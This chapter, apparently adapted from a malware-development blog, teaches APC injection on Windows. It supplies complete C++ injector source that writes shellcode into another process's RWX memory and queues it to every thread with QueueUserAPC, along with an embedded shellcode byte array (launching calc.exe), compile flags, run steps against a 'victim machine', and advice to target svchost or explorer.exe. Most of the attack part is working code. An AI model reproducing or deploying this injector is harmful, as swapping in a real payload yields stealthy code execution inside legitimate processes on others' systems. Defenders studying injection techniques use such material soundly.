




\newpage
\subsection{APC injection via alertable threads. Simple C++ malware.}

﷽

{width="80%"}    

Today I will discuss about simplest APC injection technique. I'm going to talk about APC injection in remote threads. In the simplest way, inject APC into all of the target process threads, as there is no function to find if a thread is alertable or not and we can assume one of the threads is alertable and run our APC job.    

### example

The flow is this technique is simple:    

- Find the target process id    

- Allocate space in the target process for our payload    

- Write payload in the allocated space.    

- Find target process threads   

- Queue an APC to all of them to execute our payload    

For the first step, we need to find the process id of our target process. For this I used a function from my past section about find process:    

{width="80%"}    

The full source code of this function:    

```cpp
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}
```

Then, allocate space in the target process for our payload:    

{width="80%"}    

As you can see, we should allocate this location with `PAGE_EXECUTE_READWRITE` permissions which is meaning execute, read and write.    

In the next step, we write our payload to allocated memory:    

{width="80%"}    

Then find target process threads. For this I wrote another function `getTids`:

{width="80%"}    

which finds all threads by process PID. We enum all threads and if the thread belongs to our target process we push it to our `tids` vector.       

Then queue an APC to all threads to execute our payload:    

{width="80%"}    

As you can see we queue an APC to the thread using the `QueueUserAPC` function. the first parameter should be a pointer to the function that we want to execute which is a pointer to my payload and the second parameter is a handle to the remote thread.   

Let's take a look at full C++ source code of our malware:    
```cpp
/*
hack.cpp
APC injection via Queue an APC into all the threads
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2021/11/22/malware-injection-5.html
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <tlhelp32.h>
#include <vector>

unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

unsigned int my_payload_len = sizeof(my_payload);

// get process PID
int findMyProc(const char *procname) {

  HANDLE hSnapshot;
  PROCESSENTRY32 pe;
  int pid = 0;
  BOOL hResult;

  // snapshot of all processes in the system
  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
  if (INVALID_HANDLE_VALUE == hSnapshot) return 0;

  // initializing size: needed for using Process32First
  pe.dwSize = sizeof(PROCESSENTRY32);

  // info about first process encountered in a system snapshot
  hResult = Process32First(hSnapshot, &pe);

  // retrieve information about the processes
  // and exit if unsuccessful
  while (hResult) {
    // if we find the process: return process ID
    if (strcmp(procname, pe.szExeFile) == 0) {
      pid = pe.th32ProcessID;
      break;
    }
    hResult = Process32Next(hSnapshot, &pe);
  }

  // closes an open handle (CreateToolhelp32Snapshot)
  CloseHandle(hSnapshot);
  return pid;
}

// find process threads by PID
DWORD getTids(DWORD pid, std::vector<DWORD>& tids) {
  HANDLE hSnapshot;
  THREADENTRY32 te;
  te.dwSize = sizeof(THREADENTRY32);

  hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
  if (Thread32First(hSnapshot, &te)) {
	do {
	  if (pid == te.th32OwnerProcessID) {
	    tids.push_back(te.th32ThreadID);
	  }
	} while (Thread32Next(hSnapshot, &te));
  }

  CloseHandle(hSnapshot);
  return !tids.empty();
}

int main(int argc, char* argv[]) {
  DWORD pid = 0; // process ID
  HANDLE ph; // process handle
  HANDLE ht; // thread handle
  LPVOID rb; // remote buffer
  std::vector<DWORD> tids; // thread IDs

  pid = findMyProc(argv[1]);
  if (pid == 0) {
    printf("PID not found :( exiting...\n");
    return -1;
  } else {
    printf("PID = %d\n", pid);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, 
    my_payload_len, 
    MEM_RESERVE | MEM_COMMIT, 
    PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, 
    my_payload, 
    my_payload_len, NULL);

    if (getTids(pid, tids)) {
      for (DWORD tid : tids) {
        HANDLE ht = OpenThread(THREAD_SET_CONTEXT, FALSE, tid);
        if (ht) {
          QueueUserAPC((PAPCFUNC)rb, ht, NULL);
          printf("payload injected via QueueUserAPC\n");
          CloseHandle(ht);
        }
      }
    }
    CloseHandle(ph);
  }
  return 0;
}

```

As usually, for simplicity, we use 64-bit `calc.exe` as the payload and print message for demonstration.    

Let's go to compile our code:   
```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mconsole \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
 -fdata-sections -Wno-write-strings -fno-exceptions \
 -fmerge-all-constants -static-libstdc++ -static-libgcc \
 -fpermissive
```

{width="80%"}    

Then firstly run `mspaint.exe` on victim machine (Windows 7 x64 in my case):    

{width="80%"}    

Then run our malware:       
```cmd
.\hack.exe mspaint.exe
```

{width="80%"}    

As you can see everything is work perfectly.   

Also perfectly worked on `Windows 10 x64`:

{width="80%"}    

{width="80%"}    

But I noticed than on my `Windows 7 x64` machine target process is crashed:    

{width="80%"}    

I have not yet figured out why this is happened.     

The problem with this technique is that it's unpredictable somehow, and in many cases, it can run our payload multiple times. And as for the target process, I think `svchost` or `explorer.exe` is good choice as their almost always has alertable threads.   

[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[CreateToolhelp32Snapshot](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-createtoolhelp32snapshot)          
[Process32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32first)         
[Process32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-process32next)       
[strcmp](https://docs.microsoft.com/en-us/cpp/c-runtime-library/reference/strcmp-wcscmp-mbscmp?view=msvc-160)         
[Taking a Snapshot and Viewing Processes](https://docs.microsoft.com/en-us/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)         
[Thread32First](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32first)    
[Thread32Next](https://docs.microsoft.com/en-us/windows/win32/api/tlhelp32/nf-tlhelp32-thread32next)    
[CloseHandle](https://docs.microsoft.com/en-us/windows/win32/api/handleapi/nf-handleapi-closehandle)        
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[Source code in Github](https://github.com/cocomelonc/2021-11-22-malware-injection-5)    
